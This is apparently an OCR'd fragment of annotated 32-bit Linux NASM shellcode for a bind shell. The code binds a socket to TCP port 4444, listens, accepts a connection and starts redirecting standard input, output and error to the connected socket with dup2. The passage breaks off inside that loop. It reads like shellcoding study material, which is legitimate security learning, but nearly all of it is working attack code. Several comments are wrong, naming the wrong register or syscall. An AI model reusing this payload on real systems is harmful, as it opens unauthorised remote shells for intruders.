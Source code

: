 ```nasm
;       ARG[0]               ARG[1]                          ARG[2]
;<socketcall>   bind(ipv4Socket, (struct sockaddr*) &ipSocketAddr, sizeof(ipSocketAddr));  
;  EAX=0x66      EBX   ECX[0]                   ECX[1]                   ECX[2]
xor eax, eax      ; This sets the EAX Register to NULL (all zeros).
mov al, 0x66      ; EAX is now 0x00000066 = SYSCALL 102 - socketcall
xor ebx, ebx      ; This sets the EBX Register to NULL (all zeros).
mov bl, 0x2       ; EBX is set to create a socket
xor edx, edx      ; This sets the EDX Register to NULL (all zeros).
push edx          ; ARG[2]. EDX is NULL, the value needed for INADDR_ANY.
push word 0x5c11  ; ARG[1]. This is for the TCP Port 4444.
push bx           ; ARG[0]. Push the value 2 onto the stack, needed for AF_INET.
xor ecx, ecx      ; This sets the EAX Register to NULL (all zeros).
mov ecx, esp      ; Save the memory location of ARG[0] into the EDX Register. 
                  ;   We will use this for ECX[1].
push 0x10         ; ECX[2]. Our Struct of ARG's is now 16 bytes long (0x10 in Hex). 
push ecx          ; ECX[1]. The pointer to the beginning of the struct we saved is now 
                  ;   loaded up for ECX[1].
push esi          ; ECX[0]. This is the value we saved from creating the Socket earlier. 
mov ecx, esp      ; Now we need to point ECX to the top of the loaded stack.
int 0x80          ; System Call Interrupt 0x80

; 4. Listen for incoming connections on TCP-IP Socket.
; <socketcall>   listen( ipv4Socket, 0 );  
;   EAX=0x66      EBX      ECX[0]   ECX[1]  
xor eax, eax     ; This sets the EAX Register to NULL (all zeros).
mov al, 0x66     ; EAX is now 0x00000066 = SYSCALL 102 - socketcall
xor ebx, ebx     ; This sets the EBX Register to NULL (all zeros).
mov bl, 0x4      ; EBX is set to listen().
xor ecx, ecx     ; This sets the ECX Register to NULL (all zeros).
push ecx         ; ECX[1]. Push the value 0x0 to the stack.
push esi         ; ECX[0]. This is the value we saved from creating the Socket earlier. 
mov ecx, esp     ; Point ECX to the top of the stack. 
int 0x80         ; Executes listen(). Allowing us to handle incoming TCP-IP Connections.

; 5. Accept the incoming connection, and create a connected session.
; <socketcall>   clientSocket = accept( ipv4Socket, NULL, NULL ); 
;   EAX=0x66                     EBX     ECX[0]    ECX[1] ECX[2] 
xor eax, eax     ; This sets the EAX Register to NULL (all zeros).
mov al, 0x66     ; EAX is now 0x00000066 = SYSCALL 102 - socketcall 
xor ebx, ebx     ; This sets the EBX Register to NULL (all zeros).
mov bl, 0x5      ; EBX is set to accept().
xor ecx, ecx     ; This sets the ECX Register to NULL (all zeros).
push ecx         ; ECX[2]. Push the value 0x0 to the stack.
push ecx         ; ECX[1]. Push the value 0x0 to the stack.
push esi         ; ECX[0]. This is the value we saved from creating the Socket earlier.
mov ecx, esp     ; Point ECX to the top of the stack.
int 0x80         ; System Call Interrupt 0x80 
xchg ebx, eax    ; The created clientSocket is stored in EAX after receiving a connection.

; 5. Transfer STDIN, STDOUT, STDERR to the connected Socket.
; dup2( clientSocket, 0 ); // STDIN 
; dup2( clientSocket, 1 ); // STDOUT
; dup2( clientSocket, 2 ); // STDERR
; EAX       EBX      ECX
xor eax, eax   ; This sets the EAX Register to NULL (all zeros).
xor ecx, ecx   ; This sets the ECX Register to NULL (all zeros).
mov cl, 0x2    ; This sets the loop counter, and
               ;  will also be the value of "int newfd" for the 3 dup2 SYSCAL's.
dup2Loop:      ; Procedure label for the dup2 Loop.
mov al, 0x3f   ; EAX is now 0x0000003F = SYSCALL 63 - dup2
int 0x80       ; System Call Interrupt 0x80 - Executes accept(). 
               ;   Allowing us to create connected Sockets. 
dec ecx        ; Decrements ECX by 1 
```